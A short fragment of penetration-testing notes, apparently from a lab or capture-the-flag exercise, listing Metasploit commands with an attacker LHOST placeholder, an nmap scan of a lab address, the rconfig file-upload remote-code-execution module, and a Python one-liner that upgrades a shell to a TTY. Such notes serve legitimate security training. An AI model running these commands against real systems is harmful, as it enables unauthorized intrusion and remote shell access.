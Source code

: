 ```
set RHOSTS 10.129.201.97
set LHOST <ATTACKER>
exploit
```
# Infiltrating Unix/Linux
```shell
nmap -sC -sV 10.129.201.101
```

```shell
search rconfig
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
exploit
```
## Spawning a TTY Shell with Python
```shell
python -c 'import pty; pty.spawn("/bin/sh")' 
```

